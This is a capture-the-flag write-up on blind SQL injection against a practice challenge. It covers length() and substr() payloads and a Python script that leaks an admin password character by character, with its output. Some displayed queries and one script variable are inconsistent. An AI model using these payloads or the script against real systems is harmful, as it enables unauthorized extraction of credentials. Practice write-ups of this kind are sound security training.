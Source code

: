 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 4
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/3fb3ba7d-5c3a-40cc-8b3a-8dcd16ebe014)

We are provided with the SQL query:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='{$_GET[pw]}'
```

The code performs two conditional checks:

1. `if($result['id'])`: It checks if the statement is `True`. If yes, it prints the following message: `Hello admin`
2. `if(($result['pw']) && ($result['pw'] == $_GET['pw']))`: It then checks if the `pw` that is provided is correct. If yes, it prints the flag.


In order to print out the flag, we need to first know the password. For that we have to perform a Blind SQL Injection.

### Blind SQL Injection

First we have to reveal the length of the flag.

If we provide the following URI:

```
?pw=' OR id='admin' AND length(pw)=1 -- -
```

The resultant query becomes:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR length(pw)=1 -- -'

## Queried part:
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR length(pw)=1

## Commented part:
'
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/d0e5928c-c2a2-4355-a6a2-af11d1804556)

Since the `Hello admin` message is not printed, we know that the resultant query did not result in `True`.
That tells us that the length of the `pw` column is more than 1.

If we keep increasing the length and provide the following URI:

```
?pw=' OR id='admin' AND length(pw)=8 -- -
```

The resultant query becomes:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND length(pw)=8 -- -'

## Queried part:
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND length(pw)=8

## Commented part:
'
```

![3](https://github.com/Kunull/Write-ups/assets/110326359/9e438378-10e1-4f7a-9353-bdf75700825d)

Since the `Hello admin` message is printed, we know that the resultant query resulted in `True`.
That tells us that the length of the `pw` column is 8.

### Leaking the password

Next, we can leak the password byte by byte using the `substr()` function.

#### `substr()`

![4](https://github.com/Kunull/Write-ups/assets/110326359/e332b358-2371-4f97-a9be-e1e5afce6f68)

If we provide the following URI:

```
?pw=' OR id='admin' AND substr(pw, 1, 1)=0 -- -
```

The resultant query becomes:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND substr(pw, 1, 1)=0 -- -'

## Queried part:
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND substr(pw, 1, 1)=0 #

## Commented part:
'
```

![5](https://github.com/Kunull/Write-ups/assets/110326359/065bf0e4-ef24-4a09-8482-036850cd9c18)

Since the `Hello admin` message is printed, we know that the resultant query resulted in `True`.
That tells us that the first character of the `pw` for `id=admin` is `0`.

We can now move onto the second character:

```
?pw=' OR id='admin' AND substr(pw, 2, 1)=0 -- -
```

The resultant query becomes:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND substr(pw, 2, 1)=0 -- -'

## Queried part:
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND substr(pw, 2, 1)=0

## Commented part:
'
```

![6](https://github.com/Kunull/Write-ups/assets/110326359/ca4364db-8e79-4a25-ad50-0b8889822c72)

Since the `Hello admin` message is not printed, we know that the resultant query did not result in `True`.
That tells us that the second character of the `pw` for `id=admin` is not `0`.

We can try other characters moving up to the following:

```
?pw=' OR id='admin' AND substr(pw, 2, 1)=9 -- -
```

The resultant query becomes:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND substr(pw, 2, 1)=9 -- -'

## Queried part:
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND substr(pw, 2, 1)=9

## Commented part:
'
```

![7](https://github.com/Kunull/Write-ups/assets/110326359/f9133a16-4799-4f4b-bfe3-2105d61d3e72)

Since the `Hello admin` message is printed, we know that the resultant query resulted in `True`.
That tells us that the second character of the `pw` for `id=admin` is `9`.

We can keep repeating this process until we get all the eight characters of the `admin` password:

```
095a9852
```

Now, we can provide password URI:

```
?pw=095a9852
```

The resultant query becomes:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='095a9852'
```

## Script

We can automate the entire process using a script.

```py title="orc_script.py"
import requests
import urllib.parse
import string

cookies = {'PHPSESSID': 'jeae4igtrh2cq92r63ob4kqmqr'}
url = "https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php"

password_length = 0

for x in range(0, 10):
  payload = f"' OR id='admin' AND length(pw)={x} -- -"
  encoded_payload = urllib.parse.quote_plus(payload)
  full_url = f"{url}?pw={encoded_payload}"
    
  response = requests.get(full_url, cookies=cookies)
    
  if "Hello admin" in response.text:
    pw_length = x
    break

print()    
print(f"Payload: ?pw={payload}")
print(f"Password length: {password_length}")
print()

password = ""
searchspace = string.digits + string.ascii_letters

for index in range(1, pw_length + 1):
  for char in searchspace:
    payload = f"' OR id='admin' AND substr(pw, {index}, 1)='{char}' -- -"
    encoded_payload = urllib.parse.quote_plus(payload)
    full_url = f"{url}?pw={encoded_payload}"

    response = requests.get(full_url, cookies=cookies)

    if "Hello admin" in response.text:
      password += char
      print(f"Payload: ?pw={payload}")
      print(f"Character at index {index}: {char}")
      break

print()
print(f"Extracted Password: {password}")
print(f"Final payload: ?pw={password}")
```

```
$ python .\orc_script.py

Payload: ?pw=' OR id='admin' AND length(pw)=8 -- -
Password length: 0

Payload: ?pw=' OR id='admin' AND substr(pw, 1, 1)='0' -- -
Character at index 1: 0
Payload: ?pw=' OR id='admin' AND substr(pw, 2, 1)='9' -- -
Character at index 2: 9
Payload: ?pw=' OR id='admin' AND substr(pw, 3, 1)='5' -- -
Character at index 3: 5
Payload: ?pw=' OR id='admin' AND substr(pw, 4, 1)='a' -- -
Character at index 4: a
Payload: ?pw=' OR id='admin' AND substr(pw, 5, 1)='9' -- -
Character at index 5: 9
Payload: ?pw=' OR id='admin' AND substr(pw, 6, 1)='8' -- -
Character at index 6: 8
Payload: ?pw=' OR id='admin' AND substr(pw, 7, 1)='5' -- -
Character at index 7: 5
Payload: ?pw=' OR id='admin' AND substr(pw, 8, 1)='2' -- -
Character at index 8: 2

Extracted Password: 095a9852
Final payload: ?pw=095a9852
```

![8](https://github.com/Kunull/Write-ups/assets/110326359/ef9ae213-af29-4450-8d2e-34d02565e928)
